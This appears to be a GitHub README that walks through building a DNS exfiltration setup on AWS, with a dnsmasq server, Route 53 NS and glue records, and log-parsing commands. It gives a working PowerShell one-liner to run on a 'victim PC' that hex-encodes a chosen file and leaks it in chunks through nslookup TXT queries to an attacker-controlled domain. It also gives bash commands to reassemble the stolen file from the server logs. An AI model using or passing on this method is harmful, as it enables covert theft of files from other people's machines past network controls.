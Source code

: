 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1acdb4fc-de86-46e1-9516-de9cc23264d9)


## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

  
## Step 4: Install dnsmasq on EC2 instance and configure it
`sudo yum install dnsmasq`  
`sudo nano /etc/dnsmasq.conf`  
  
Then input the content below into /etc/dnsmasq.conf, right at the bottom of the config file    
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or use the commands below to restart dnsmasq  
`ps -aux | grep dnsmasq`  
`sudo kill <pid of dnsmasq>`  
`sudo systemctl restart systemd-networkd.service`  
`sudo dnsmasq`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/b0cfaf2f-93c0-4967-957c-cd3269241435)
  
  
## Step 5: Go to Route 53 config, note down default SOA and NS records  
Route 53 > click Hosted zones  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/50f03726-cfaf-4c20-b2c4-b5f1186cc1ee)
  
  
## Step 6: In Route 53 config, create 2x A Record to point NS record to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/25738c09-9728-44b0-bab4-4534f07e0b0a)

  
## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  
  
  
## Step 9: Note down default glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)

  
## Step 10: Modify glue records
Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 11: Use CMD to nslookup as a test
Launch cmd prompt on victim PC then run the command below  
`nslookup -q=TXT 17April2024206pm.<yourdomain.com> ns1.<yourdomain.com>`  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1cf48904-5c60-4e33-924d-108513b1b5e4)


## Step 12: Check your DNS logs in EC2
In EC2 DNS server, run the command below and observe your nslookup query being logged.  
`sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"`  


## Step 13: Powershell command to hex encode a file, split, and do nslookup
Launch powershell prompt on victim PC then run command below.  
   
`cd <to folder holding file to exfiltrate>`  
`certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/2624b595-5ce0-423b-901b-8702de5a99c2)
  

## Step 14: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing
In EC2 DNS server, run the commands below to combine assemble hex into file.  

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > <file to exfiltrate from Step 12> && cat <file to exfiltrate from Step 12>`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/c18d73f6-f166-4f47-aaa0-dc4a479cd2b3)

  
## Troubleshooting Tips:  
  
### Step 11, nameserver issue
In Step 10, sometimes you need to specify nameserver (ns1.<yourdomain.com>) in the nslookup command, sometimes you don't. I'm unsure why that is so.  
Remove or add nameservers as needed according to what you experience.  
You'll also need to remove or add nameservers from the command in Step 12!  
  
### Step 12, clearing logs
After some tests you might want to clear your logs. Use the command below:  
`sudo nano /var/log.dnsmasq.log`  
In nano, press `Alt + T` to clear everything in the log file  
Press `Ctrl + X` to save  

### Step 14, blank file output
There may be rare occasions where your output file is blank. Troubleshoot with commands below:  
  
Check that you're "cutting" correctly from the dnsmasq log using `sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' `.  
  
Adjust "-f 6" to "-f 5" or "-f 7" to change where to cut the log. Once you get the right spot, modify cut command accordingly.


### Regex to search for 1.xxxxx.dnsname.com, 10.xxxxx.dnsname.com, 100.xxxxx.dnsname.com
sudo cat /var/log/dnsmasq.log | grep -F "query[A]" | cut -f 6 -d ' ' | grep -P "^\d{1,3}\."  
